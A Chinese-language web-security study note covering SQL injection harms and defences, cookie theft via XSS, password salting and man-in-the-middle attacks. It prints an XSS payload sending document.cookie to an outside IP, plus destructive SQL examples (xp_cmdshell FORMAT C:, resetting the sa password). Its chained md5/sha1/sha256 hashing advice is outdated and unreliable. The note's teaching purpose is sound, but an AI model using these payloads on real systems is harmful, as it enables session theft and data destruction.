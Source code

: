 1. 数据表中的数据外泄，例如个人机密数据，账户数据，密码等
2. 破坏硬盘数据，瘫痪全系统（例如xp_cmdshell “FORMAT C:”）
3. 数据库服务器被攻击，系统管理员账户被窜改（例如ALTER LOGIN sa WITH PASSWORD=’xxxxxx’）
...

## 对SQL注入的防御方法主要有

1. 字符串长度验证，仅接受指定长度范围内的变量值。sql注入脚本必然会大大增加输入变量的长度，通过长度限制，比如用户名长度为 8 到 20 个字符之间，超过就判定为无效值。
2. 对单引号和双"-"、下划线、百分号等sql注释符号进行转义。
3. 不管客户端是否做过数据校验，在服务端必须要有数据校验（长度、格式、是否必填等等）。
4. 使用SQL防注入系统
...

# cookie诈骗

在 XSS 攻击中，黑客可以构造语句来成功获取用户的cookie信息。

```javascript
<script>window.open('http://10.65.21.78:8080/ck.php?c='+document.cookie)</script>
```
然后通过提取 cookie 中的 key 和 value 值，利用插件拷贝到浏览器中，那么便很容易黑进人家网站后台了。可以设置 HttpOnly 提高安全性，但是也并不是万能的。也可能在 socket 层面通过抓包获取重要信息。

对于cookie，我们还必须要注意其安全性。

1. value ：如果⽤于保存⽤户登录态，应该将该值加密，不能使⽤明⽂的⽤户标识。
2. http-only 不能通过 JS 访问 Cookie ，减少 XSS 攻击。
3. secure 只能在协议为 HTTPS 的请求中携带。
4. same-site 规定浏览器不能在跨域请求中携带 Cookie ，减少 CSRF 攻击。

# 密码安全

对于密码存储来说，必然是不能明⽂存储在数据库中的，否则⼀旦数据库泄 露，会对⽤户造成很⼤的损失。并且不建议只对密码单纯通过加密算法加密，因为存在彩虹表的关系。

通常需要对密码加盐，然后进⾏⼏次不同加密算法的加密。

```javascript
// 加盐也就是给原密码添加字符串，增加原密码⻓度 
sha256(sha1(md5(salt + password + salt)))
```
但是加盐并不能阻⽌别⼈盗取账号，只能确保即使数据库泄露，也不会暴露⽤ 户的真实密码。⼀旦攻击者得到了⽤户的账号，可以通过暴⼒破解的⽅式破解 密码。对于这种情况，通常使⽤验证码增加延时或者限制尝试次数的⽅式。且⼀旦⽤户输⼊了错误的密码，也不能直接提示⽤户输错密码，⽽应该提示账号或密码错误。

虽然前端加密对于安全防护来说意义不⼤，但是在遇到中间⼈攻击的情况下， 可以避免明⽂密码被第三⽅获取。

# 中间人攻击（MITM）

中间人攻击(man-in-the-middle attack, abbreviated to MITM)，简单的讲，就是黑客悄悄的躲在通信双方之间，窃听甚至篡改通信信息。而通信双方并不知道消息已经被截获甚至篡改了。

很多的时候，我们的网站不是直接就访问到我们的服务器上的，中间会经过很多层代理，如果在某一个环节，数据被中间代理层的劫持者所截获，他们就能获取到使用你网站的用户的密码等保密数据。比如，我们的用户经常会在各种饭馆里面，连一些奇奇怪怪的wifi，如果这个wifi是黑客所建立的热点wifi，那么黑客就可以结果该用户收发的所有数据。
